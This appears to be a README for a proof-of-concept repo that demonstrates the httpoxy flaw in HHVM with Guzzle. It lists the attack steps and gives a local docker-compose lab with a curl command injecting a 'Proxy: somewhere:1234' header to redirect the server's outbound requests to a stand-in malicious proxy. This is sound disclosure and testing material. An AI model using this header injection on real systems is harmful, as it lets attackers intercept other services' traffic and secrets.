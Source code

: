 # HHVM Httpoxy Vulnerability

## Steps

This is how the vulnerability works:

1. Do the usual PHP thing of exposing user-supplied headers as `$_SERVER['HTTP_*']`
2. Be using Guzzle from an HHVM request handler
3. As an HTTP client, inject a `Proxy: my-malicious-service` header to any request made
4. Watch as Guzzle helpfully sends the request to the malicious proxy, supplied by the client

## Using this repo

This repo contains a docker-compose setup that puts index.php into an HHVM FastCGI container. To test:

* docker-compose up -d
* curl -vv -H 'Proxy: somewhere:1234' http://localhost:8001/index.php
* collect reflected request at somewhere:1234
